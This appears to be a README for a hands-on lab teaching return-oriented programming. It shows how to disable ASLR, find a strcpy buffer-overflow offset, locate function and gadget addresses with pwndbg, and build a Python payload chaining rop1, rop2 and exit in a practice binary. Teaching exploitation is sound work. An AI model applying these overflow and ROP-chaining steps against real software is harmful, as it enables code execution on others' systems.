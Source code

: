 # ROP

## Requirements

- pwntools

    ```bash
    sudo apt-get update
    sudo apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential
    sudo apt-get install python3-pwntools
    ```

- pwndbg

    ```bash
    git clone https://github.com/pwndbg/pwndbg
    cd pwndbg
    ./setup.sh
    ```

- Disable ASLR

    ```bash
    echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
    ```

### x64?

- In case you are running a x64 OS, you will need 32-bit development headers and libraries

    ```bash
    sudo apt-get install gcc-multilib
    ```


## Basic binary inspection

```bash
gdb ./rop
 
info functions # Look for functions (main / vulnerable / rop1 rop2)

disassemble vulnerable # It includes a call to strcpy function (bof)

disassemble rop1 # Executes the Put function (Print a String through the stdout)

disassemble rop2 # The functions has one parameter (ebp+0x8) and calls Printf funct
```
![](./img/info.png)

# Break the code!

```bash
gdb ./rop
run $(python3 -c 'from pwn import *; print(cyclic(500))')
cyclic -l 0x61646261 #110
run $(python3 -c 'from pwn import *; import sys; print("A"*112 + "B"*4)')
```

> offset 110!

## ROP Exploitation

Leveraging ROP, we will alter the program flow by chaining the following function calls `ROP1 -> ROP2 -> EXIT`

1. Write down the memory addresses of the functions

```bash
gdb ./rop1
b main
run

p rop1  # 0x8049186
p rop2  # 0x80491b1
p exit  # 0xf7da6ad0
```
![](./img/functions_dir.png)


2. Fill in the exploit template [exploit_template.py](./exploit_template.py)

```python
...
rop1 = 0x8049186
rop2 = 0x80491b1
exit_dir = 0xf7da6ad0
...
```

3. Now we chained the execution from `vulnerable` to `rop1`. Take a look at the [exploit_template.py](./exploit_template.py) and run the binary with the exploit

```bash
./rop $(python3 exploit.py)
```

![](./img/rop1_run.png)

> As expected, the program ends with a segmentation fault due to a breakage in the ROP Chain

Let's chain rop2, passing the variable `0xdeadead` :)


4. Look for a gadget to `pop` the parameter we will pass in `rop2` and chain the execution flow to the `exit` function

> pop %X; ret

```bash
break main
run
rop --grep 'pop' # pop ebx; ret
```
> Gadget -> @0x804901e

![](./img/rop_gadget.png)

5. Fill in the gadget address in the template [exploit_template.py](./exploit_template.py)

```python
...
pop_ret = 0x804901e
...
```

6. Uncomment the second part of the chain to include the rop2 call

```python
# Address of rop2(), address of pop ret and an argument for rop2()
payload += struct.pack("I", rop2)
payload += struct.pack("I", pop_ret)
payload += struct.pack("I", 0xdeaddead)
```

As you can see, now both function calls are chained, but it still throughs a segmentation fault...

![](./img/rop2.png)

7. Now, we will chain the exit call to finish the program gracefully. Uncomment the final call

```python
# exit
payload += struct.pack("I", exit_dir)
```

> Fixed! The programs ends gracefully :)

## References

This lab is a simplified version of the one on ired.team. Refer to the official guide to better understand the caveats involved in ROP chaining
* https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/rop-chaining-return-oriented-programming
